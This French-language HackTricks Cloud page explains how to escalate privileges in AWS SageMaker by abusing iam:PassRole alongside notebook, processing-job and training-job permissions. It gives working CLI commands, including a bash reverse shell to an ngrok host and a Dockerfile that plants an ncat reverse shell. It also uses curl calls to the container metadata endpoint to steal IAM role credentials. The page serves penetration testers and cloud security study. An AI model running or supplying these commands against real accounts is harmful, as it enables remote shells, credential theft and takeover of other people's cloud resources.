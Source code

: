 # AWS - Sagemaker Privesc

## AWS - Sagemaker Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### `iam:PassRole`, `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

Commencez à créer un notebook avec le rôle IAM pour y accéder :
```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
La réponse doit contenir un champ `NotebookInstanceArn`, qui contiendra l'ARN de la nouvelle instance de notebook créée. Nous pouvons ensuite utiliser l'API `create-presigned-notebook-instance-url` pour générer une URL que nous pouvons utiliser pour accéder à l'instance de notebook une fois qu'elle est prête :
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Naviguez vers l'URL avec le navigateur et cliquez sur \`Open JupyterLab\` dans le coin supérieur droit, puis faites défiler vers le bas jusqu'à l'onglet “Launcher” et sous la section “Other”, cliquez sur le bouton “Terminal”.

Maintenant, il est possible d'accéder aux informations d'identification des métadonnées du rôle IAM.

**Impact potentiel :** Privesc au rôle de service sagemaker spécifié.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

S'il y a des **notebooks Jupyter déjà en cours d'exécution** dessus et que vous pouvez les lister avec `sagemaker:ListNotebookInstances` (ou les découvrir de toute autre manière). Vous pouvez **générer une URL pour eux, y accéder et voler les informations d'identification comme indiqué dans la technique précédente**.
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**Impact potentiel :** Privesc au rôle de service sagemaker attaché.

### `sagemaker:CreateProcessingJob,iam:PassRole`

Un attaquant avec ces permissions peut faire en sorte que **sagemaker exécute un processingjob** avec un rôle sagemaker attaché. L'attaquant peut indiquer la définition du conteneur qui sera exécuté dans une **instance de compte ECS gérée par AWS**, et **voler les identifiants du rôle IAM attaché**.
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**Impact potentiel :** Privesc au rôle de service sagemaker spécifié.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

Un attaquant avec ces permissions sera capable de créer un job d'entraînement, **exécutant un conteneur arbitraire** dessus avec un **rôle attaché**. Par conséquent, l'attaquant pourra voler les identifiants du rôle.

{% hint style="warning" %}
Ce scénario est plus difficile à exploiter que le précédent car vous devez générer une image Docker qui enverra le rev shell ou les identifiants directement à l'attaquant (vous ne pouvez pas indiquer une commande de démarrage dans la configuration du job d'entraînement).
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**Impact potentiel :** Privesc au rôle de service sagemaker spécifié.

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

Un attaquant avec ces permissions pourra (potentiellement) créer un **hyperparameter training job**, **exécutant un conteneur arbitraire** dessus avec un **rôle attaché**.\
_Je n'ai pas exploité en raison du manque de temps, mais cela semble similaire aux exploits précédents, n'hésitez pas à envoyer une PR avec les détails de l'exploitation._

## Références

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
